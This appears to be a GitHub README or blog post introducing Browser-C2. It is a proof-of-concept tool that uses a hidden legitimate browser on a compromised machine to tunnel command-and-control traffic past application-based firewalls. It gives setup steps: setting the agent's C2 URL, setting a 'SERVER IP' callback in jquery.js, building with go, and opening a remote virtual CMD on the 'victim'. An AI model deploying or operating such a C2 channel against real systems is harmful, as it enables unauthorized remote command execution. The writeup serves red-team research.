 # Browser-C2 using legitimate browsers for Command and Control Operations

# Intro

During the recent years companies are starting to get better at security. If 5-6 years before you could "finish" your pentest in a day , increased security awareness  is making them "harder" and more challenging.

This blogpost will describe a little "challenge" I faced during an engagment, how I solved it and will describe Browser-C2.

So imagine gaining initial foothold to a pivot point, but you can't estabilish external connections because every endpoint has strict host-based firewall policies and they are using a proxy.
The first thing that came in my mind was that they were using some kind of host-based firewall and since I couldn't estabilish connections even on the same subnet , the policies were based on applications.

To verify my theory, I executed a hidden browser window through my pivot point to visit a specific URL and I received the callback. That meant that the browser was allowed to do connections and I needed to use some kind of Browser based only communication.

At first i thought, "ok there is probably a tool to do this" but I was wrong. So that is how all started and I ended up writing Browser-C2 , which is a **POC** code to use a legitemate browser to do Command and Control operations.



# Browser-C2 Architecture

Browser-C2 Architecture is pretty simple. There are two elements.
The first one is the Server and the other one is the Agent.

The server will start a HTTP listener which will wait for callbacks and data from the "victim" browser. 

The agent will start a HTTP listener locally and also execute a browser to connect to the Server.


All the communication is done by the client browser and is sent to the Agent by HTTP Requests.

The architecture is as follows :

![ScreenShot](https://raw.githubusercontent.com/0x09AL/Browser-C2/master/images/Arch.png)


This code is still a POC and not implemented very good.

There is a lot of room for improvements , for example (Filtering of input in Agent Name, Access-Allow-Origin header, Encryption support, Checking of XMLHTTP request if they are successfull or not etc) so keep that in mind before using it in production and relay 100% to it.


# Browser-C2 Demo

So enough with the talking let's demo it.

Browser-C2 components are built in Go. First you need to install **gorilla/mux** and **chzyer/readline**.

Before compiling any of the components you need to make some changes.

## Agent
You need to first configure the C2Url in agent.go to match your own C&C url.

![ScreenShot](https://raw.githubusercontent.com/0x09AL/Browser-C2/master/images/c2url.png)

In case you want to allow only one specific URL to access the Agent HTTP Server specify your custom Access-Control-Allow-Origin.

After you have configured the information above you can compile the Agent by running

``` C:\Users\pwn\go\src\Browser-C2\agent > go build agent.go ```

## Server

You can change the default options on the Server like the listening port. 
Also in the file ``` jquery.js ``` you need to change the 

```
var url = "http://SERVER IP:8080/"; // URL of the Remote Endpoint
var local_url = "http://127.0.0.1:8081/"; // URL of the Agent Local Endpoint

```

To compile the server go to the home dir of the project and :

``` C:\Users\pwn\go\src\Browser-C2 > go build ```


After compiling the components run the server on your C2 and the Agent in the "Victim" machine.


At the moment a connection is estabilished it will print the agent name.
You can connect to it by using the ``` use {AGENT NAME} ``` command.
After you are at the Agent workspace it is a virtual CMD for the remote system.


Example of executing commands to a connected agent.

![ScreenShot](https://raw.githubusercontent.com/0x09AL/Browser-C2/master/images/example.png)


To that's it for Browser-C2. As I mentioned previously this code is very beta and there are a lot of ways things can go wrong.
Hope you enjoyed this short blog post.

Follow me on Twitter : @0x09AL

Browser-C2 : https://github.com/0x09AL/Browser-C2

